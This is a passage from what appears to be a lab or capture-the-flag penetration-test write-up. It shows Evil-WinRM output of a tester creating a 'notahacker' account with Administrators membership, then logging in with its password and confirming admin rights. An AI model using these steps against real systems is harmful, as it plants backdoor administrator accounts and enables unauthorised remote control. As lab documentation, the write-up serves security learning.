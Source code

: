 

```
*Evil-WinRM* PS C:\Users\oliver\Documents> net user notahacker
User name                    notahacker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/1/2024 12:18:01 PM
Password expires             10/13/2024 12:18:01 PM
Password changeable          9/2/2024 12:18:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.

```

Once the tester had been created the user, they were able to login with the new credentials and have an administrator level account.

```
└─$ evil-winrm -i 10.10.11.132 -u notahacker -p 'Password246'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\notahacker\Documents> whoami
object\notahacker

```


```
*Evil-WinRM* PS C:\Users\notahacker\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
```